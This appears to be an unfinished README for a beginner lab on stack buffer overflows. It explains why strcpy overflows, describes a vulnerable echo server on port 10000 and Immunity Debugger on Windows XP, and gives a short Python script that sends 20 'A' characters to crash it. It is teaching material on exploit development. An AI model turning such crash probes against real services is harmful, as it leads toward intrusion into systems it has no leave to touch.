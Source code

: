 # sampling a buffer overflow #

* crashing the program
* code in python
* analyze crash

using immunity debugger 1.85 on windows xp

the input we send to the program is stored in a buffer. strcopy copies a string from a source to a destination. the problem is that there is no cap on the lenght of the string in strcpy, which means if the size of the input buffer which is going to hold the string is small, and the user sends a very large string, this would end up overflowing that buffer which leads to a corruption in that stack which overrides things like the return address and ends up crashing the program.


##  ## server / client connection ##

basic echo server using strcpy, running on port 10000, connecting using nc and testing functionality. 

![1](images/1.PNG)


## ## attach server process to immunity debugger ##

![2](images/2.PNG)

basic immunity debugger terminal explanation
top left - 
top right - 
bottom left - 
bottom right - 

![3](images/3.PNG)


## ## python exploit ##

see file strcpy.py

```python
#!/usr/bin/python

import socket
import sys

# ipv4 address family and tcp socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# connecting as client. user input ip and port 10000
sock.connect((sys.argv[1], 10000))

# sending 20 "A's"
buffer = "A" * 20

# sending buffer
sock.send(buffer)


print sock.recv(1024)

sock.close()
```



















